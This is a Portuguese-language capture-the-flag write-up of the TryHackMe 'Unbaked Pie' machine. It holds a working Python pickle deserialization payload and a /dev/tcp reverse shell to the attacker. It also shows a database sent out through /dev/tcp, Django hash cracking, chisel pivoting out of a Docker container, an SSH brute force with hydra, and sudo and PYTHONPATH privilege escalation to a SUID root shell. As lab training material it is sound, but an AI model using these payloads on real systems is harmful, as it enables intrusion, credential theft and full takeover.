


# Unbaked Pie

## Sobre a máquina

| **Nome da Máquina**    | Unbaked Pie                                          |
| ---------------------- | ---------------------------------------------------- |
| **Sistema Opracional** | Linux                                                |
| **Dificuldade**        | Medium                                               |
| **Vulnerabilidades**   | Insecure Deserialization                             |
| **Link**               | [Unbaked Pie](https://tryhackme.com/room/unbakedpie) |

# Atacando...
## Recon...
Certo, vamos começar pelo básico do básico. Esse scan mais simples já irá adiantar nosso trabalho. Se começarmos por um scan mais completo tipo `-sCV`, vai demorar um pouco mais. Por isso curto iniciar com um mais simples pegando todas portas abertas primeiro.

```
sudo nmap -sS -v -p- --min-rate 5000 -oN nmap/ports.txt 10.65.159.226
Nmap scan report for 10.65.159.226
Host is up (0.14s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
```

Que diferente, não? Serviço meio diferentão! Vamos aprofundar o scan nele:

```
sudo nmap -sCV -v -p5003 -oN nmap/versions.txt 10.65.159.226

Nmap scan report for 10.65.159.226
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
5003/tcp open  http    WSGIServer 0.2 (Python 3.8.6)
|_http-title: [Un]baked | /
|_http-server-header: WSGIServer/0.2 CPython/3.8.6
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS

```

Hmmm, um servidor Web que pelo que parece tem o Python como backend, talvez seja um **Django** por trás! 

Com o `whatweb` conseguimos confirmar o Django:
```
┌──(kali㉿kali)-[~/Documents/thm]
└─$ whatweb http://10.65.180.78:5003 
http://10.65.180.78:5003 [200 OK] Bootstrap, Cookies[csrftoken], Country[RESERVED][ZZ], Django, HTML5, HTTPServer[WSGIServer/0.2 CPython/3.8.6], IP[10.65.180.78], JQuery, Script, Title[[Un]baked | /], UncommonHeaders[x-content-type-options,referrer-policy], X-Frame-Options[DENY]
```

Interessante! 

## Descobrindo a Serialização...

Dando uma olhada no que se trata a aplicação, como impressão inicial parece ser bem simples:



Interessante, se você fizer brute force de diretórios não encontrará nada tão interessante assim.

Então o próximo passo será analisar as features da aplicação. Fazendo isso, você perceberá que a de login está quebrada, não está funcionando bem.

Agora, se olhar a de pesquisa, verá algo interessante:

```
HTTP/1.1 200 OK
Date: Fri, 13 Mar 2026 19:59:14 GMT
Server: WSGIServer/0.2 CPython/3.8.6
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 4881
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  search_cookie="gASVDwAAAAAAAACMC2FsZ3VtIHRlc3RllC4="; Path=/
Set-Cookie:  csrftoken=DZo1Kj3IZ74mrZB1CXuRLhGieKNWoq8lCypGq0kzVJoBGJQyMEn4hHVXuZkqKOy7; expires=Fri, 12 Mar 2027 19:59:14 GMT; Max-Age=31449600; Path=/; SameSite=Lax
```

Se você fizer uma pesquisa qualquer e olhar a resposta da request vai ver que será setado para você um tal de `search_cookie`, e analisando o que seria esse cookie, vemos algo bem diferente:

```
┌──(kali㉿kali)-[~/Documents/thm]
└─$ echo "gASVDwAAAAAAAACMC2FsZ3VtIHRlc3RllC4=" | base64 -d              
���
   algum teste�.                                                                                      

```

Bytes "aleatórios" além da string que pesquisamos. Que doido! Veja com o `xxd`:

```
┌──(kali㉿kali)-[~/Documents/thm]
└─$ echo "gASVDwAAAAAAAACMC2FsZ3VtIHRlc3RllC4=" | base64 -d | xxd -ps
8004950f000000000000008c0b616c67756d207465737465942e

```

Geralmente, cookies e outros tipos de informações são serializados, dependendo da  aplicação e do cenário.

Eu fui dar um pesquisada sobre ser possível identificar serialização de dados usando o dado final, ou seja, sem ter acesso ao código fonte, e o ChatGPT me cuspiu a informação de que, em backends Python, o mecanismo de serialização pode ser o **Pickle**, e uma vez o dado serializado por ele, os seguintes bytes aparecem no início: `\x80\x04`

Agora olhe a sequência de bytes que conseguimos acima: 
`8004950f000000000000008c0b616c67756d207465737465942e`

Percebeu o início? Pois é! Juntando tudo:
- Backend: Django
- Bytes:  `\x80\x04`logo no início.

Tudo indica que temos um processo de serialização aqui e que o mecanismo usado é o **Pickle**. 
Vamos testar para comprovar se realmente é cenário que temos aqui: 

```python
import pickle
import base64

dados = "gASVDwAAAAAAAACMC2FsZ3VtIHRlc3RllC4="

decoded = base64.b64decode(dados)

unpickled = pickle.loads(decoded)

print(unpickled)
``` 

Coloquei o valor do cookie que pegamos anteriormente, e veja o resultado:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ python3 test.py
algum teste
```

Veja que os byte sumiram! Confirmando assim a serialização!
### Deserialização insegura...
Creio que a essa altura você já conheça a vulnerabilidade chamada **Insecure Deserialization** caso não, uma rápida pesquisada no Google, ou então, o ChatGPT já te ajuda com isso ai! (Pesquise caso não saiba, pesquisar faz parte do nosso trabalho).

Pesquisando mais um pouco no Google, encontramos payloads para testar essa falha, caso queira uma referência, [aqui](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md) está.

Aqui está um exemplo de código:

```python
import pickle
import os
import base64

class ratao:
    def __reduce__(self):
        return os.system, ("curl http://<seu_ip>:8000",)

pickled = pickle.dumps(ratao())

cookie = base64.urlsafe_b64encode(pickled)


print(cookie)
```

Neste payload, basicamente estamos usando o mesmo mecanismo que o backend da aplicação usa, para fazer a serialização de um payload malicioso e entregarmos para a aplicação.

Como não temos visualização do comando executado, usaremos o `curl` para saber se a execução de código ocorreu ou não.

Agora, execute o script, pegue o valor gerado e use como valor de cookie na requisição, com o BurpSuite, a request ficará assim:

```
POST /search HTTP/1.1
Host: 10.64.151.51:5003
Content-Length: 106
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.64.151.51:5003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.64.151.51:5003/
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=0al22lFd0uZladu6D5vsARQlukFaOtHdF9oBR4KPY5q7SM0FdS229Trqh1XatM2N;search_cookie=<seu_payload>
Connection: keep-alive

csrfmiddlewaretoken=FBp0eh6BF0HEPWhRgw7rAEzOLCP0wnfVkAsz30bdDB8qxvNqQjE19GaTyj70bGAv&query=apenas+um+teste
```

Perceba que adicionei o cookie manualmente ali com nosso valor modificado, depois basta enviar a request e perceba que funcionou:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ python3 -m http.server    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.64.151.51 - - [13/Mar/2026 18:56:16] "GET / HTTP/1.1" 200 -
```

Excelente! Agora partiremos para uma shell reversa!
Usarei o seguinte payload (caso queira outro basta escolher [aqui](https://www.revshells.com/)):
`sh -i >& /dev/tcp/<seu_ip>/9001 0>&1`

Codifiquei para **Base64** e inseri no nosso script para ser gerado o nosso payload malicioso serializado:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ cat des.py 
import pickle
import os
import base64

class ratao:
    def __reduce__(self):
        return os.system, ("echo <payload_encodado_base64>|base64 -d|bash",)

pickled = pickle.dumps(ratao())

cookie = base64.urlsafe_b64encode(pickled)


print(cookie)
```

Seguindo o mesmo processo anterior, alterando o valor do cookie e colocando esse gerado agora pela execução do script. enviando a request, recebemos a shell:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ nc -lnvp  9001
listening on [any] 9001 ...
connect to [SEU_IP] from (UNKNOWN) [10.64.151.51] 43670
sh: 0: can't access tty; job control turned off
# 
```

E olha que interessante, já temos uma shell root. 

Confesso pra você que em um primeiro momento eu achei que já tinha acabado o CTF, mas quando eu fui fazer upgrade da shell, eu vi que não:

(caso ainda não saiba)
```
1- Digite: script /dev/null -c bash
2- Aperte CTRL-Z
3- Digite: stty raw -echo && fg
4- Agora digite reset, dê enter e logo após digite screen e dê enter mais uma vez.
5- E por fim digite: export TERM=xterm
```

E ao olhar o prompt do terminal já imaginei que poderia ser um **container!** Para confirmar, fui na raiz e cacei o arquivo `.dockerenv` e lá estava:

```
root@8b39a559b296:/# ls -lah
total 76K
drwxr-xr-x   1 root root 4.0K Oct  3  2020 .
drwxr-xr-x   1 root root 4.0K Oct  3  2020 ..
-rwxr-xr-x   1 root root    0 Oct  3  2020 .dockerenv
```
## Pivot com chisel
Neste momento, precisamos achar uma forma de sair do container. Se você vasculhar ele um pouco não vai encontrar nada tão útil principalmente que nos permita sair dele.

Mas há um arquivo, que quando podemos ter acesso a ele é sempre interessante dar uma conferida e aqui foi nossa "salvação": `.bash_history`.

Presente na home do usuário root,  ao olhar seu conteúdo vemos algo interessante:

```
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
```

Removi algumas partes que não nos interessa tanto.  Esse arquivo foi uma fonte valiosa de informações.

Como se trata de um container Docker, me arrisco a dizer que aquele IP que está ali `172.17.0.1` seja o IP da máquina host. E ainda conseguimos um usuário.

Porém temos alguns problemas, o administrator (ou dev) removeu o SSH completamente do container. O que é bem estranho, **ele estava com medo de alguma coisa.**

Precisamos de credenciais! O username já temos, porém, precisamos de senhas. Mas antes, vamos testar se a porta SSH do host ainda está disponível, podemos fazer com `nc`:

```
root@8b39a559b296:~# nc 172.17.0.1 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

Menos mal! Ainda podemos tentar algo. Agora precisamos de credenciais.

Se você olhar em `/home` lá tem um diretório chamado `site`, me arrisco a dizer que esse seja o diretório da aplicação. Olhando dentro desse diretório vemos um arquivo de banco de dados:

```
root@8b39a559b296:/home/site# ls
account  assets  bakery  db.sqlite3  homepage  manage.py  media  templates
```

Isso é bom! Podem conter hashes de senhas, se conseguirmos quebrar, talvez consigamos usar com o usuário que conseguimos anteriormente.

Passe o arquivo para a sua máquina e olhe com o `sqlite3`. Vou te ajudar, como estamos em um docker, não temos como o acessar diretamente, portanto, teremos de fazer com que ele envie para nós, 

Faça da seguinte forma, ou tente de outra, caso queira:
Na sua máquina:
`nc -lnvp 9002 > db.sqlite3`
No container:
`cat db.sqlite3 > /dev/tcp/<seu_ip>/9002`
E veja que receberás o arquivo:
```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ ls db.sqlite3 
db.sqlite3
```

Agora, abrindo o arquivo, acessando as tabelas e seus dados, veja que realmente conseguimos hashes:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ sqlite3 db.sqlite3        
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
sqlite> select * from auth_user
   ...> ;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
```

Excelente!

Maaaas, para te adiantar, dessas ai, somente uma vai quebrar e vair ser a: `testing:lala12345`

Caso queira deixar quebrando mesmo assim, use o `hashcat`, tive problemas com o `john`:
`hashcat -m 10000 hashes /usr/share/wordlists/rockyou.txt`

Vai demorar, principalmente se estiver em VM. Bem, prosseguindo...

Nessa hora, você se pergunta: Tá, agora como vamos tentar nos conectar no SSH do host alvo se o SSH foi removido do container?

Simples! Pivot com `chisel`! 

Usaremos o container como pivot para o host alvo espelhando a porta SSH do host alvo na nossa porta SSH local. Vamos lá! (Caso a essa altura ainda não saiba o que é pivot, ChatGPT te ajuda com isso, ou mesmo o Google, como eu disse, pesquise! Treine isso! Faz parte do nosso trabalho)

Baixe o `chisel` na sua máquina atacante, caso ainda não tenha. [Aqui](https://github.com/jpillora/chisel/releases/tag/v1.11.5) está o link.

Na sua máquina atacante (a porta você pode escolher outra caso queira):
`chisel server -p 7070 --reverse`

Passe o `chisel` para o container (tente pensar em uma forma, mas caso não consiga, execute `python3 -m http.server` na sua máquina e baixe no container com o `curl` ) e o execute da seguinte maneira:
`chisel client <seu_ip>:<sua_porta> R:22:172.17.0.1:22`

Esse comando vai espelhar a porta 22 do host alvo (172.17.0.1) que e na nossa porta 22 para que possamos interagir com o SSH do host alvo.

Para saber se funcionou:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ nc localhost 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

Veja que recebemos o banner.

Excelente, agora, ao tentar usar a senha que conseguimos antes juntamente o usuário `ramsey`, veja que não conseguimos:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ ssh ramsey@localhost            
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
ramsey@localhost's password: 
Permission denied, please try again.
ramsey@localhost's password: 
```

Estranho!
## Ramsey shell + user flag
Nesta hora, teremos de nos colocar um pouco no lugar do administrador (ou dev) que estava usando o sistema.

O acesso ao container não foi tao complexo assim, talvez, nem ele confiasse tanto assim na aplicação que estava rodando lá.

Se não ele não deixou rastros da senha no container, por que ele iria querer remover o SSH do container caso alguém conseguisse acessá-lo? Senha do usuário dele sendo fraca demais?

Seguindo com a hipótese da senha fraca, já que temos acesso ao serviço SSH do host, podemos tentar um Brute Force, talvez funcione!

E tentando, veja que realmente funcionou!

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://localhost -F  
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-13 19:59:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://localhost:22/
[22][ssh] host: localhost   login: ramsey   password: 12345678
```

Que doido! A senha foi o motivo da remoção do SSH! Agora é só logar e pegar a **user flag.**
## Oliver shell
Buscando por meios para escalar privilégios, vemos algo interessante:

```
ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py

```

Podemos executar o script `vuln.py` como Oliver, um outro usuário da máquina. Interessante!

O conteúdo dele não é muito interessante para nós nesse momento.

A sacada aqui vai ser,  já que está no nosso diretório e temos permissão, trocar esse arquivo genuíno por um falso, de mesmo nome e deixando no mesmo lugar, porém com um conteúdo malicioso.

Faremos o seguinte:

```
ramsey@unbaked:~$ mv vuln.py vuln.py.bak
ramsey@unbaked:~$ ssh-keygen -f ratovelho
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ratovelho.
Your public key has been saved in ratovelho.pub.
The key fingerprint is:
SHA256:HE3Xcm7xUILyxQv912NgO0u+s3HNoIH6fDdijVB4C/k ramsey@unbaked
The key's randomart image is:
+---[RSA 2048]----+
|          . .=...|
|         o..+oO. |
|        . .=.*o*.|
|       . .+.+++o=|
|        S .=+o= o|
|         .. E= o.|
|        .  ..+..o|
|         o  =o*  |
|          oo +o. |
+----[SHA256]-----+

```

E depois:

```
ramsey@unbaked:~$ cat vuln.py
import os

os.system("mkdir /home/oliver/.ssh")
os.system("cat ratovelho.pub > /home/oliver/.ssh/authorized_keys")
```

Execute o script:

```
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
```

Passe a private key gerada para a sua máquina atacante (um copy e paste já resolve), dê as devidas permissões (`chmod 600 ratovelho`) e agora temos acesso como Oliver:

```
┌──(kali㉿kali)-[~/Documents/thm/unbaked]
└─$ ssh -i ratovelho oliver@localhost
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

oliver@unbaked:~$ 
```

Excelente! Só um adendo aqui, eu optei por essa forma de acesso via SSH por ser maios estável, mas caso quisesse, poderia ter sido inserido diretamente um payload para um shell reversa lá no script.
## Root shell + root flag
Certo, agora precisamos de uma forma de definitivamente virarmos `root`.

E o `sudo -l` mais uma vez nos revela algo interessante:

```
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

E olha que bacana, podemos executar o script `/opt/dockerScript.py` como `root` e ainda podemos alterar variáveis de ambiente ao executar.

E olhando seu conteúdo, vemos algumas coisas bacanas, mas a que mais no interessa é esse `import` que ele faz:

```
oliver@unbaked:~$ cat /opt/dockerScript.py 
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)=
```

Mas antes, eu preciso te explicar algo...

Sempre que fazermos um import dentro de um script Python, ao executarmos esse script, o interpretador do Python busca em alguns lugares do sistema a biblioteca a qual está sendo importada.

Porém,alguém precisa informar ao interpretador quais diretórios ele deve ir. E quem "faz isso" é uma variável de ambiente chamada `PYTHONPATH`.

A ordem fica:
1. A biblioteca que está sendo importada é procurada primeiro **no diretório onde o script está.**
2. Segue em diante com os outros diretórios especificados pela `PYTHONPATH`, caso não ache lá.

Agora guarde todas essas informações que te passei e prosseguiremos...

A sacada vai ser a seguinte: como podemos executar o script como `root` e ainda alterar variáveis de ambiente, criaremos um arquivo chamado `docker.py` no nosso diretório `home` com um conteúdo malicioso e logo em seguida executaremos o script `/opt/dockerScript.py` como `root` alterando a variável de ambiente `PYTHONPATH` adicionando nosso diretório `home` nela, que é onde o nosso `docker.py` malicioso está, forçando assim o `dockerScript,py` executar o nosso script malicioso `docker.py`  ao invés do original. Vamos lá!

Criando o arquivo:
```
oliver@unbaked:~$ cat docker.py 
import os

os.system("cp /bin/bash /tmp/bash; chmod u+s /tmp/bash")
```

Mais uma vez, caso quisesse, poderia optar e tentar a opção de criar a chave SSH e adicionar no diretório home do `root` assim como fizemos com o Oliver, mas optei por essa forma mais rápida.

Agora, basta executarmos da forma que mencionei:

```
oliver@unbaked:~$ sudo PYTHONPATH=$(pwd) /usr/bin/python /opt/dockerScript.py 
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'
```

Ignore o erro, ao verificar, vemos que funcionou e temos uma shell como `root`:

```
oliver@unbaked:~$ ls /tmp
bash  systemd-private-4879c9bd38534832beace280a246ea0b-systemd-timesyncd.service-tHoSTD
oliver@unbaked:~$ /tmp/bash -p
bash-4.3# id
uid=1002(oliver) gid=1002(oliver) euid=0(root) groups=1002(oliver),1003(sysadmin)
```

Excelente! Agora é só pegar a **root flag!**

--- 
# Conclusão
 Fazia tempos que não pegava um cenário desses! Particularmente eu curto demais quando encaro cenários de pivot, acho muito top! Insecure deserialization, por mais que o nome talvez assuste, as vezes pode ser até bem simples de se explorar, como neste cenário! Bem, é isso!

Muito obrigado! 
Nos vemos em breve! 
E sinta-se à vontade para entrar em contato comigo caso queira!
